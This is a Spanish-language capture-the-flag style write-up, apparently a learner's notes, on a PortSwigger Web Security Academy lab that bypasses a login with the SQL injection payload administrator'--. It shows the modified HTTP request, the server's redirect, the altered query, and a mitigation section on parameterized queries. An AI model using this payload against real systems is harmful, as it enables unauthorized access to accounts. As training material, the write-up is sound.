

# Lab 01 - SQL Injection Login Bypass

## Objetivo

Iniciar sesión como el usuario `administrator` explotando una vulnerabilidad de SQL Injection en el formulario de login.

## Plataforma

- PortSwigger Web Security Academy

## Herramientas utilizadas

- Burp Suite
- Burp Repeater
- Navegador configurado con proxy
- Laboratorio controlado de PortSwigger Web Security Academy

## Contexto

El laboratorio presenta un formulario de login vulnerable a SQL Injection.

La aplicación recibe un usuario y una contraseña. La idea del ejercicio es modificar la lógica de la consulta SQL para iniciar sesión como `administrator` sin conocer su contraseña.

En este caso, la prueba se realizó desde Burp Repeater, modificando manualmente el parámetro `username` en la request enviada al servidor.

## Request original

```http
POST /login HTTP/2
Host: lab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

username=sonro&password=123456
```

## Payload utilizado

```sql
administrator'--
```

## Request modificada

```http
POST /login HTTP/2
Host: lab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

username=administrator'--&password=123456
```

## Respuesta obtenida

```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=...
```

## Evidencia



## Explicación técnica

El payload utilizado fue:

```sql
administrator'--
```

La lógica del payload es la siguiente:

- `administrator` corresponde al usuario objetivo.
- `'` cierra la comilla que probablemente estaba abierta en la consulta SQL.
- `--` comenta el resto de la consulta.

La aplicación probablemente esperaba procesar una consulta parecida a esta:

```sql
SELECT * FROM users
WHERE username = 'administrator'
AND password = '123456';
```

Pero al insertar el payload en el campo `username`, la consulta queda conceptualmente modificada de esta forma:

```sql
SELECT * FROM users
WHERE username = 'administrator'--'
AND password = '123456';
```

El comentario `--` hace que la parte de la contraseña quede ignorada por la base de datos.

En la práctica, la consulta termina evaluando solamente esta condición:

```sql
WHERE username = 'administrator'
```

Por eso la aplicación permite iniciar sesión como `administrator` sin validar correctamente la contraseña.

## Resultado

El login fue exitoso.

La respuesta del servidor devolvió:

```http
HTTP/2 302 Found
Location: /my-account?id=administrator
```

Esto indica que la aplicación aceptó la autenticación y redirigió la sesión hacia la cuenta del usuario `administrator`.

## Mitigación

Para prevenir este tipo de vulnerabilidad, la aplicación no debería construir consultas SQL concatenando directamente los datos ingresados por el usuario.

El problema ocurre porque el valor enviado en el campo `username` puede ser interpretado como parte de la consulta SQL. En este caso, el payload `administrator'--` logra cerrar la comilla del usuario y comentar la validación de la contraseña.

La principal medida de protección sería usar **consultas preparadas** o **parameterized queries**, donde los valores del usuario se tratan como datos y no como instrucciones SQL.

Ejemplo de consulta insegura:

```sql
SELECT * FROM users
WHERE username = '$username'
AND password = '$password';
```

Ejemplo de enfoque más seguro:

```sql
SELECT * FROM users
WHERE username = ?
AND password = ?;
```

Además, se deberían aplicar buenas prácticas como:

- Validar los datos recibidos desde el servidor.
- Evitar mensajes de error demasiado detallados.
- Usar hashing seguro para contraseñas.
- Revisar intentos de login sospechosos.
- Aplicar controles correctos de sesión.
- Realizar pruebas de seguridad durante el desarrollo.

La defensa más importante en este caso es evitar que el input del usuario pueda modificar la estructura de la consulta SQL.

## Qué aprendí

- Cómo identificar una posible SQL Injection en un formulario de login.
- Cómo usar Burp Repeater para modificar una request HTTP.
- Qué significa una respuesta `302 Found`.
- Qué significa el header `Location`.
- Qué significa `Set-Cookie`.
- Cómo una SQL Injection puede alterar la lógica de autenticación.
- Por qué `administrator'--` permite omitir la validación de contraseña.
- Por qué las consultas preparadas son una defensa clave contra SQL Injection.
